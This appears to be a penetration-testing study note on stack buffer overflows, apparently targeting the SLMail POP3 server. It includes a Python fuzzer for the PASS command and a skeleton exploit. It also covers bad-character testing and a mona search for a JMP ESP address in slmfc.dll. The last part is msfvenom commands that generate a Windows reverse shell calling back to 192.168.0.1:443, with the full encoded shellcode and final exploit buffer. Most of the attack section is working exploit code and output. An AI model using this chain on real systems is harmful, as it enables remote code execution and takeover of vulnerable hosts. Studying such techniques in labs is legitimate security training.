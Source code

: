 # BUFFER OVERFLOWS

Fuzzing
=======

Microsoft memory protections:  

DEP = Data Execution Prevention  
ASLR = Address Space Layout Randomization  

Python fuzzer example:
```
#!/usr/bin/python
import socket

# Create an array of buffers, from 10 to 2000, with increments of 20
buffer=["A"]
counter=100
while len(buffer) <= 30:
  buffer.append("A"*counter)
  counter=counter+200

for string in buffer:
  print "Fuzzing PASS with %s bytes" % len(string)
  s=socket.socket(socket.AF_INET, socket.SOCK_STREAM)
  connect=s.connect(('192.168.0.1',110))
  s.recv(1024)
  s.send('USER test\r\n')
  s.recv(1024)
  s.send('PASS ' + string + '\r\n')
  s.send('QUIT\r\n')
  s.close()
```

Replicating / Skeleton Exploit
==============================

Example:
```
#!/usr/bin/python
import socket
s=socket.socket(socket.AF_INET, socket.SOCK_STREAM)

buffer='A' * 2000

try:
print "\n Sending evil buffer..."
connect=s.connect(('192.168.0.1',110))
s.recv(1024)
s.send('USER test\r\n')
s.recv(1024)
s.send('PASS ' + buffer + '\r\n')
print "\n Done!"
s.close()
except:
print "Could not connect to pop3!"
```

Shellcode
=========

Typical reverse shell payload requires 350-400 bytes of space. If not enough, try increasing the buffer and see if this results in larger override.  

Bad Characters
==============

Bad chars should not be used in buffer / return address /shellcode.  
Examples: null (`00`), carriage return (`0D`)  

Send all hex characters and see how the application behaves:
```
badchars = (
\x01\x02\x03\x04\x05\x06\x07\x08\x09\x0a\x0b\x0c\x0d\x0e\x0f\x10\x11\x12\x13\x14\x15\x16\x17\x18\x19 +
\x1a\x1b\x1c\x1d\x1e\x1f\x20\x21\x22\x23\x24\x25\x26\x27\x28\x29\x2a\x2b\x2c\x2d\x2e\x2f\x30\x31\x32 +
\x33\x34\x35\x36\x37\x38\x39\x3a\x3b\x3c\x3d\x3e\x3f\x40\x41\x42\x43\x44\x45\x46\x47\x48\x49\x4a\x4b +
\x4c\x4d\x4e\x4f\x50\x51\x52\x53\x54\x55\x56\x57\x58\x59\x5a\x5b\x5c\x5d\x5e\x5f\x60\x61\x62\x63\x64 +
\x65\x66\x67\x68\x69\x6a\x6b\x6c\x6d\x6e\x6f\x70\x71\x72\x73\x74\x75\x76\x77\x78\x79\x7a\x7b\x7c\x7d +
\x7e\x7f\x80\x81\x82\x83\x84\x85\x86\x87\x88\x89\x8a\x8b\x8c\x8d\x8e\x8f\x90\x91\x92\x93\x94\x95\x96 +
\x97\x98\x99\x9a\x9b\x9c\x9d\x9e\x9f\xa0\xa1\xa2\xa3\xa4\xa5\xa6\xa7\xa8\xa9\xaa\xab\xac\xad\xae\xaf +
\xb0\xb1\xb2\xb3\xb4\xb5\xb6\xb7\xb8\xb9\xba\xbb\xbc\xbd\xbe\xbf\xc0\xc1\xc2\xc3\xc4\xc5\xc6\xc7\xc8 +
\xc9\xca\xcb\xcc\xcd\xce\xcf\xd0\xd1\xd2\xd3\xd4\xd5\xd6\xd7\xd8\xd9\xda\xdb\xdc\xdd\xde\xdf\xe0\xe1 +
\xe2\xe3\xe4\xe5\xe6\xe7\xe8\xe9\xea\xeb\xec\xed\xee\xef\xf0\xf1\xf2\xf3\xf4\xf5\xf6\xf7\xf8\xf9\xfa\xfb\xfc\xfd\xfe\xff)

buffer = "A"*2000 + "B"*4 + badchars
```
Run, follow ESP in dump/memory locaton. It should be 01 02 03 04 ... etc with no truncations or missing/filtered chars. So for example if 09 is the last correct character, 0A is the one we should avoid.  
Remove the badchar from the badchars, resend payload.  


Redirecting Execution Flow
==========================

We need to find a way to redirect the execution flow at the time of the crash to the shellcode located at the memory address that the ESP register is pointing to at crash time.
The intuitive way would be to replace the EIP value with the ESP one. This way the execution would be directed to the beginning of our shellcode which is pointed to by the ESP register. However that would not work because at each crash ESP value changes.

That's where dll's drives and modules come in which contain extra fuctions.  

Use Mona for this:  

`!mona modules`  

Choose instructions from a module that matches a few criteria:  

1) No mem protections (ASLR, DEP)  
2) Memory range of the dll itself does not contain bad characters  

In our case the only suitable module is slmfc.dll. It will load at the same address at each reboot.  
Now we need to find  JMP ESP or similar instruction and find out what address it is located at.  

Go to executable modules list ("e" after l in top menu). Locate slmfc.dll, double click on it.  
Right click, search for, Command -> jmp esp. Push esp \n retn? Not found.  

Click on m letter in the above menu. (modules list). The .text section of the module is actually marked as executable. Since no mem protetions, we can use any of these. How to search in whole smfc.dll? We need to find JMP ESP opcode equivalent.  

`ruby /usr/share/metasploit-framework/tools/nasm_shell.rb`  

OR  

```
root@kali:~# cd /usr/share/metasploit-framework/tools/
root@kali:/usr/share/metasploit-framework/tools# ./metasm_shell.rb
type "exit" or "quit" to quit
```

In our case the equivalent is FFE4:  
```
metasm > jmp esp
"\xff\xe4"
```
Use mona script in immunity dbg to search:  

`!mona find -s "\xff\xe4\" -m slmfc.dll`  

"Results" are displayed. We verify if this indeed contains the JPM ESP instruction. Select, click on the black arrow to dots button, enter expression to follow: 0x5f4a358f address (it can be seen on the left of the results).  

3) Replace the B's in the buffer with the address (but written in reverse due to little endian format):  

`buffer="A"*2606 + "\x8f\x35\x4a\x5f" + "C"*(3500-2606-4)`  

Locate the mem address in immunity and place a breakpoint (due to bug, might need to do it twice).  
Now the ESP should point to the beginning of Cs in the buffer.  


Generating Shellcode
====================

1) Generate Windows reverse shell with msfpayload:  

`msfpayload windows/shell_reverse_tcp LHOST=192.168.0.1 LPORT=443 C`  

(C= provide shellcode output in C formatted layout we could use in python script)   

2) Notice bad characters in payload. Encode payload with msfencode:  

`msfencode -h`  

Regenerate in R(raw) format and pipe the output to encode and avoid bad chars:  

`msfpayload windows/shell_reverse_tcp LHOST=192.168.0.1 LPORT=443 R |msfencode -b '\x00\x0a\x0d'`  

Or msfvenom:  
```
root@kali:~# msfvenom -p windows/shell_reverse_tcp -e x86/shikata_ga_nai -b '\x00\x0a\x0d' -i 1 -f python LHOST=192.168.0.1 LPORT=443


No platform was selected, choosing Msf::Module::Platform::Windows from the payload
No Arch selected, selecting Arch: x86 from the payload
Found 1 compatible encoders
Attempting to encode payload with 1 iterations of x86/shikata_ga_nai
x86/shikata_ga_nai succeeded with size 351 (iteration=0)

buf =  ""
buf += "\xd9\xe1\xba\x27\x95\xd2\x95\xd9\x74\x24\xf4\x58\x31"
buf += "\xc9\xb1\x52\x83\xe8\xfc\x31\x50\x13\x03\x77\x86\x30"
buf += "\x60\x8b\x40\x36\x8b\x73\x91\x57\x05\x96\xa0\x57\x71"
buf += "\xd3\x93\x67\xf1\xb1\x1f\x03\x57\x21\xab\x61\x70\x46"
buf += "\x1c\xcf\xa6\x69\x9d\x7c\x9a\xe8\x1d\x7f\xcf\xca\x1c"
buf += "\xb0\x02\x0b\x58\xad\xef\x59\x31\xb9\x42\x4d\x36\xf7"
buf += "\x5e\xe6\x04\x19\xe7\x1b\xdc\x18\xc6\x8a\x56\x43\xc8"
buf += "\x2d\xba\xff\x41\x35\xdf\x3a\x1b\xce\x2b\xb0\x9a\x06"
buf += "\x62\x39\x30\x67\x4a\xc8\x48\xa0\x6d\x33\x3f\xd8\x8d"
buf += "\xce\x38\x1f\xef\x14\xcc\xbb\x57\xde\x76\x67\x69\x33"
buf += "\xe0\xec\x65\xf8\x66\xaa\x69\xff\xab\xc1\x96\x74\x4a"
buf += "\x05\x1f\xce\x69\x81\x7b\x94\x10\x90\x21\x7b\x2c\xc2"
buf += "\x89\x24\x88\x89\x24\x30\xa1\xd0\x20\xf5\x88\xea\xb0"
buf += "\x91\x9b\x99\x82\x3e\x30\x35\xaf\xb7\x9e\xc2\xd0\xed"
buf += "\x67\x5c\x2f\x0e\x98\x75\xf4\x5a\xc8\xed\xdd\xe2\x83"
buf += "\xed\xe2\x36\x03\xbd\x4c\xe9\xe4\x6d\x2d\x59\x8d\x67"
buf += "\xa2\x86\xad\x88\x68\xaf\x44\x73\xfb\x10\x30\x6b\x87"
buf += "\xf8\x43\x8b\x76\x42\xca\x6d\x12\xa4\x9b\x26\x8b\x5d"
buf += "\x86\xbc\x2a\xa1\x1c\xb9\x6d\x29\x93\x3e\x23\xda\xde"
buf += "\x2c\xd4\x2a\x95\x0e\x73\x34\x03\x26\x1f\xa7\xc8\xb6"
buf += "\x56\xd4\x46\xe1\x3f\x2a\x9f\x67\xd2\x15\x09\x95\x2f"
buf += "\xc3\x72\x1d\xf4\x30\x7c\x9c\x79\x0c\x5a\x8e\x47\x8d"
buf += "\xe6\xfa\x17\xd8\xb0\x54\xde\xb2\x72\x0e\x88\x69\xdd"
buf += "\xc6\x4d\x42\xde\x90\x51\x8f\xa8\x7c\xe3\x66\xed\x83"
buf += "\xcc\xee\xf9\xfc\x30\x8f\x06\xd7\xf0\xbf\x4c\x75\x50"
buf += "\x28\x09\xec\xe0\x35\xaa\xdb\x27\x40\x29\xe9\xd7\xb7"
buf += "\x31\x98\xd2\xfc\xf5\x71\xaf\x6d\x90\x75\x1c\x8d\xb1"
```

3) Repalce B's with shellcode, align so that the sum would be still 3500 bytes:  

`buffer="A"*2606 + "\x8f\x35\x4a\x5f" + shellcode + "C"*(3500-2606-4-351)`  

4) We need to provide the shellcode decoder a bit of stack space and compensate:  
```
buffer="A"*2606 + "\x8f\x35\x4a\x5f" + "\x90\"*16 + shellcode + "C"*(3500-2606-4-351-16)
buffer="A"*2606 + "\x8f\x35\x4a\x5f" + "\x90" *16 + buf + "C"*(3500-2606-4-351-16)
```
This should provide a reverse shell.
